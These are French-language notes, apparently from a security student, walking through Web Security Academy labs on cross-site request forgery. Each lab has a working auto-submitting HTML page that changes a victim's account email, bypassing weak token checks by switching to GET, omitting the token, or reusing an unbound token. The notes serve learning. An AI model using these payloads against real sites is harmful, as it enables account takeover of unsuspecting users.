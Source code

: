 Un attaque CSRF consiste à faire effectuer à l'utilisateur une action sur un site A en mettant du code sur un autre site B.

Par exemple a.com a une fonctionnalité de modification d'email.
Si un site b.com (très méchant), crée une page web qui fait une action automatique vers le site a.com (non protégé), il pourra envoyer sa page à des utilisateurs qui déclencherons des actions sur le site a.com ou il sont auth et dans la mesure ou leurs cookie sont envoyé avec la requêtes :

```html
<html>
	<body>
		<form action="https://vulnerable-website.com/email/change"   method="POST"> 
		<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body>
</html>
```

### Lab: CSRF vulnerability with no defenses
L'attaque fonctione, aucune défense n'a était mise en place. Quelque qui est authentifié sur le site et et qui visite une page contenant se code verra son compte être lié à l'email `toto@gmail.com`.
```html
<html>
	<body>
	<form class="login-form" name="change-email-form" action="https://0aaf002f0376312481fa39bb00610017.web-security-academy.net/my-account/change-email" method="POST">
	<input required type="email" name="email" value="toto@gmail.com">
	</form>
	<script> document.forms[0].submit(); </script> 
	</body>
<html>
```

### Lab: CSRF where token validation depends on request method
Ici on remarque que la csrf token n'est tester que sur les requêtes post (on test de mettre un token csrf non valide sur cette méthode). Il se trouve que le formulaire de réinitialisation fonctionne aussi avec un argument en GET :
```html
<html>
	<body>
	<script>
	window.location.href = "https://0a1c00a404ab4742a5aa77b400e800db.web-security-academy.net/my-account/change-email?email=wiener@normal-user.net";
	</script>
	</body>
<html>
```

### Lab: CSRF where token validation depends on token being present
Bon alors là c'est marrant. Le site vérifie le csrf token (youpie !!!) que si il est présent dans la requête (Ooops...).
```
<html>
<body>
<form class="login-form" name="change-email-form" action="https://0a7800970382c27f80f23ff100c500ad.web-security-academy.net/my-account/change-email" method="POST">
<input required type="email" name="email" value="wiener@normal-user.net">
</form>
<script> document.forms[0].submit(); </script> 
</body>
</html>
```
On supprime juste l'input "csrf_token".

### Lab: CSRF where token is not tied to user session
Dans certain cas les tokens csrf sont bien vérifié mais ne sont pas lié à une sessions. Par conséquence un attaquant peu récupérer un token valide et il le sera pour tout les autres utilisateurs (Dommage).
```
<html>
<body>
<form class="login-form" name="change-email-form" action="https://0af600e303eb0fa480393a89009f0087.web-security-academy.net/my-account/change-email" method="POST">

<input required type="email" name="email" value="toto@gmail.com">
<input required type="hidden" name="csrf" value="MU8Qh93PhnH54M81mvUAzlg2829W8A9L">

</form>
<script> document.forms[0].submit(); </script> 
</body>
</html>
```
Les tokens sont ici à usage unique on peu en récupérer un nouveau à chaque fois en rafraîchissant la page.
